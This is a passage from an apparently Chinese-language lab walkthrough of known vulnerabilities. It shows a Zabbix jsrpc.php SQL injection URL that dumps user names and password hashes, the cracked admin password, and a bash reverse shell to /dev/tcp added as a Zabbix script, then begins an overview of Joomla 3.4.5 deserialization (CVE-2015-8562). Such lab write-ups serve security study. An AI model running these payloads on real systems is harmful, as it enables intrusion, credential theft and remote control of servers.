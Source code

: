 ```
http://yourip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,substr((select group_concat(surname,0x2a,passwd) from users ),1)),0)
```

![](https://i.loli.net/2021/02/13/YoTeb7l6DZ5qFnj.png)
![](https://i.loli.net/2021/02/13/pALPrzy957bBg1x.png)



Administrator

5fce1b3e34b520afeffb37ce08c7cd66

![](https://i.loli.net/2021/02/13/1mDdf2a5tz7LHEJ.png)

MD5解密即得密码zabbix

```
管理员账户：（不懂为啥，用户名是Admin，可能是环境问题？）
Admin
zabbix
```



登入后如下图点击~在administration下的scripts添加命令

![](https://i.loli.net/2021/02/13/lOjT4emRzKL6cqE.png)

写入反弹shell：

```bash
bash -i >& /dev/tcp/你的ip/你的端口 0>&1
```

![](https://i.loli.net/2021/02/13/XpjChdwn92AJL76.png)

触发脚本，然后NC监听即可~

![](https://i.loli.net/2021/02/13/Y9XRjwgMPTvnEHl.png)

### Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

#### 安装过程

老样子，只是在网页配置过程注意填入如下数据

![](https://i.loli.net/2021/02/13/mLkDCOvWSzawQ8p.png)

#### 概述

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

##### 影响版本
